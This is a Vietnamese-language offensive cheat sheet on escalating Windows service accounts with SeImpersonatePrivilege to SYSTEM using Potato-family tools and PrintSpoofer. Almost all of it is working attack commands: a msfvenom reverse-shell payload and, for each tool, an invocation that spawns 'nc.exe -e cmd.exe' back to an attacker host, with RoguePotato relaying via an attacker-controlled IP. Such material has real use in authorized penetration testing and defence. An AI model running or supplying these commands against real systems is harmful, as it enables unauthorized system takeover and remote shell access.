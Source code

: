 # SeImpersonate/SeAssignPrimaryTokenPrivilege

## Điểm chính khai thác

* Khai thác các lỗ hổng trong DCOM và RPCSS trên Windows 2012–2022 để leo thang đặc quyền từ tài khoản dịch vụ có **SeImpersonatePrivilege** hoặc **SeAssignPrimaryTokenPrivilege** lên **NT AUTHORITY\SYSTEM.**
* GodPotato tận dụng lỗi xử lý OXID trong dịch vụ RPCSS (chạy trên cổng 135), cho phép giả mạo token SYSTEM, hiệu quả với dịch vụ web/cơ sở dữ liệu có **SeImpersonatePrivilege.**
* Các công cụ như PrintSpoofer, SweetPotato, và RoguePotato cung cấp các phương thức thay thế, phù hợp với các phiên bản Windows và hạn chế mạng khác nhau (ví dụ: PrintSpoofer cho Windows 10/Server 2019+).

***

## Các bước khai thác

### Kiểm tra lỗ hổng

Kiểm tra quyền **SeImpersonatePrivilege** hoặc **SeAssignPrimaryTokenPrivilege** của tài khoản hiện tại để xác định khả năng khai thác:

```
whoami /priv
```

Liệt kê phiên bản hệ điều hành để chọn công cụ phù hợp (GodPotato, PrintSpoofer, v.v.):

```
systeminfo
```

Kiểm tra cấu hình mạng để đảm bảo cổng 135 (cho RoguePotato) hoặc named pipe (cho PrintSpoofer) có thể truy cập:

```
netstat -an
```

***

### Thực thi khai thác

Chuẩn bị payload hoặc mã khai thác:

{% code overflow="wrap" %}

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o shell.exe
```

{% endcode %}

Sử dụng các loại Potato bên dưới để chiếm quyền Administrator.

***

## Các loại Potato

### GodPotato

Khai thác lỗ hổng DCOM và RPCSS để nâng cao đặc quyền trên Windows 2012–2022, yêu cầu SeImpersonatePrivilege. Thích hợp cho các dịch vụ web/database.

```bash
GodPotato.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe <LHOST> <LPORT>"
```

* Hoạt động trên các hệ thống Windows hiện đại (lên đến 2022) nơi các công cụ Potato cũ thất bại.
* Khai thác cách xử lý OXID resolutions của RPCSS để thực hiện token impersonation.

***

### SweetPotato

Công cụ toàn diện kết hợp nhiều kỹ thuật nâng cao đặc quyền (DCOM, WinRM, EfsRpc, PrintSpoofer) để khai thác SeImpersonatePrivilege.

{% code overflow="wrap" %}

```bash
SweetPotato.exe -p "C:\Windows\System32\cmd.exe" -a "/c nc.exe <LHOST> <LPORT> -e cmd.exe" -e PrintSpoofer
```

{% endcode %}

* Hỗ trợ nhiều chế độ khai thác: DCOM, WinRM, EfsRpc, PrintSpoofer (mặc định).
* Tùy chọn linh hoạt: -c (CLSID), -m (phương thức: Auto/User/Thread), -l (cổng COM lắng nghe).

***

### GenericPotato

Một biến thể của SweetPotato, hỗ trợ impersonation qua HTTP/named pipe để nâng cao đặc quyền với SeImpersonatePrivilege.

{% code overflow="wrap" %}

```bash
GenericPotato.exe -p "C:\Windows\System32\cmd.exe" -a "/c nc.exe <LHOST> <LPORT> -e cmd.exe"
```

{% endcode %}

* Mở rộng SweetPotato với các giao thức impersonation bổ sung (HTTP/named pipe).
* Thích hợp cho các kịch bản cần token impersonation dựa trên named pipe hoặc HTTP.

***

### RoguePotato

Khai thác DCOM và các callback xác thực named pipe để impersonate SYSTEM token, yêu cầu SeImpersonatePrivilege và một máy từ xa do kẻ tấn công kiểm soát.

{% code overflow="wrap" %}

```bash
RoguePotato.exe -r <ATTACKER_IP> -c "nc.exe <LHOST> <LPORT> -e cmd.exe" -l 9999
```

{% endcode %}

* Yêu cầu máy từ xa (\<ATTACKER\_IP>) lắng nghe trên cổng 135 để chuyển hướng OXID resolutions.
* Sử dụng fake OXID RPC server và named pipe (ncacn\_np:localhost/pipe/roguepotato\[\pipe\epmapper]).

***

### PrintSpoofer

Lạm dụng dịch vụ Print Spooler và SeImpersonatePrivilege để nâng cao đặc quyền trên Windows 10/Server 2019+ nơi JuicyPotato thất bại.

```bash
PrintSpoofer.exe -c "nc.exe -e cmd.exe <LHOST> <LPORT>"
```

* Khai thác thao tác named pipe trong dịch vụ Print Spooler (\pipe\spoolss).
* Sử dụng PrinterBug để ép buộc xác thực SYSTEM qua RPC trên named pipe.

***

### JuicyPotatoNG

Phiên bản cải tiến của JuicyPotato, khai thác SeImpersonatePrivilege hoặc SeAssignPrimaryTokenPrivilege thông qua COM servers để nâng cao đặc quyền.

```bash
JuicyPotatoNG.exe -t * -p "nc.exe" -a "<LHOST> 4444 -e cmd.exe"
```

* Hoạt động trên các hệ thống nơi BITS bị vô hiệu hoặc cổng 6666 bị chiếm dụng, không như RottenPotatoNG.
* Yêu cầu CLSID hợp lệ (ví dụ: từ danh sách GitHub của công cụ hoặc qua PowerShell enumeration).

***

### SharpEfsPotato

Khai thác lỗ hổng EFS RPC (CVE-2021-36942) với SeImpersonatePrivilege để nâng cao đặc quyền cục bộ, dựa trên SweetPotato và SharpSystemTriggers.

{% code overflow="wrap" %}

```bash
SharpEfsPotato.exe -p C:\Windows\System32\cmd.exe -a "/c nc.exe <LHOST> <LPORT> -e cmd.exe"
```

{% endcode %}

* Nhắm vào phương thức EfsRpcEncryptFileSrv để thực hiện token impersonation.
* Hiệu quả trên các hệ thống đã vá các lỗ hổng cũ hơn.
